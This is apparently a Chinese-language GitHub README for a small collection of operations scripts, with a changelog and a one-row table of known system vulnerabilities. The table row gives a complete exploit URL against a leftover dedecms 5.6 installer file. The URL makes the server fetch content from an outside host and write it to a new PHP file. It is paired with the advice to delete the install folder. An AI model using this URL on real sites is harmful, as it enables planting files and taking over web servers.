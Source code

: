 ## **懒人云科技出品- 一些项目中用到的脚本** ##
* 20181103修改blacklist-docker.py 忽略IP处理
* 20181123修改dede_check.py  dede权限空制 结合crontab做定时处理
----
#### 1 常用系统漏洞
| 软件名称 | 实例  | 说明 | 备注 |
| :------------ | :------------ | :------------ | :------------ |
| dedecms5.6 | `http://你的dedecms网址/install/index.php.bak?step=11&insLockfile=a&s_lang=a&install_demo_name=../xss.php&updateHost=http://www.xmyisu.com/`  | 安装dedecms 后会  生成install/index.php.bak这个文件.| 建议删除install文件夹 |
